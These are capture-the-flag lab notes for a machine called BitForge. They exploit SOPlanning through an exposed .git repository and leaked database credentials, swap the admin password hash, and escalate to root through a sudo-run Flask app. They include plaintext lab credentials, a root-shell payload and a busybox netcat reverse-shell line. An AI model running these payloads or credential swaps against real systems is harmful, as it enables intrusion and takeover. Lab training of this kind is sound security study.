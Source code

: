 # BitForge \[Inter]

## Report

SOPlanning running on `plan.bitforge.lab` is vulnerable to authenticated RCE. However, default creds of `admin:admin` do not work. A git repo is also publicly exposed which gives us database credentials. Passwords are stored as a SHA1 hash. To update this and set our own custom hash, we can set a new password by reading the documentation and structure of the service which describes the function used to generate the SHA1 hash or the demo data provides a default hash value that would probably be 'admin'. Update db with this new found hash, login and get reverse shell.

Intercept creds for user 'jack' via pspy and jack can run a flask application as sudo. Edit the corresponding python file to become root.

## Cheatsheet

```
mysql --skip-ssl -h 192.168.106.186 -uBitForgeAdmin -pB1tForG3S0ftw4r3S0lutions
```

## Loot

### Enumeration

192.168.106.186

#### 80

#### bitforge.lab

login.php - Nothing

#### plan.bitforge.lab

Simple Online Planning v1.52.01

### Attack Vectors

.git exposed, retrieve database creds

{% embed url="https://github.com/theexploiters/CVE-2024-27115-Exploit" %}

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption><p>Extract default hash from fresh install, replace it with existing hash as we cannot crack it</p></figcaption></figure>

<div align="left"><figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption><p>includes/class_user.inc shows how password hash is created, some char prepended and appended so normal way of creating sha-1 wont work</p></figcaption></figure></div>

### PrivEsc

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption><p>Intercept creds for user 'jack'</p></figcaption></figure>

```bash
User jack may run the following commands on bitforge:
    (root) NOPASSWD: /usr/bin/flask_password_changer

jack@BitForge:/opt/password_change_app$ cat /usr/bin/flask_password_changer
#!/bin/bash
cd /opt/password_change_app 
/usr/local/bin/flask run --host 127.0.0.1 --port 9000 --no-debug

jack@BitForge:/opt/password_change_app$ ls -la
total 24
drwxr-xr-x 4 jack jack 4096 Oct  2 06:43 .
drwxr-xr-x 4 root root 4096 Jan 16  2025 ..
-rw-rw-r-- 1 jack jack   49 Oct  2 06:43 app.py


import os
os.setuid(0)
os.system("/bin/bash -p")
OR
os.system('busybox nc -e $IP /bin/sh'
```

### Creds

#### Database

`$dbName = 'bitforge_customer_db'`

`BitForgeAdmin:B1tForG3S0ftw4r3S0lutions`

#### SOPlanning

`admin:df5b909019c9b1659e86e0d6bf8da81d6fa3499e` \[SHA-1, didn't work]

change existing hash to match default creds of `admin:admin`

#### Lateral

`jack:j4cKF0rg3@445`

### Proof

